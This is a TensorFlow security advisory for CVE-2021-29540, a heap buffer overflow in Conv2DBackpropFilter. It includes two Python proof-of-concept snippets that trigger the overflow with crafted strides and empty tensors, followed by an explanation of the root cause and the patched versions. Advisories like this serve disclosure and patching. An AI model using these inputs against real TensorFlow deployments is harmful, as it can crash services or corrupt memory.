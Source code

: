 ## TFSA-2021-028: Heap buffer overflow in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29540

### Impact
An attacker can cause a heap buffer overflow to occur in `Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([386.078431372549, 386.07843139643234],
                           shape=[1, 1, 1, 2], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([386.078431372549], shape=[1, 1, 1, 1],
                           dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

Alternatively, passing empty tensors also results in similar behavior:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 1, 1, 5], dtype=tf.float32)
filter_sizes = tf.constant([3, 8, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/tensorflow/core/kernels/conv_grad_filter_ops.cc#L495-L497)
computes the size of the filter tensor but does not validate that it matches the
number of elements in `filter_sizes`. Later, when reading/writing to this
buffer, code uses the value computed here, instead of the number of elements in
the tensor.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/galeone/tensorflow/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
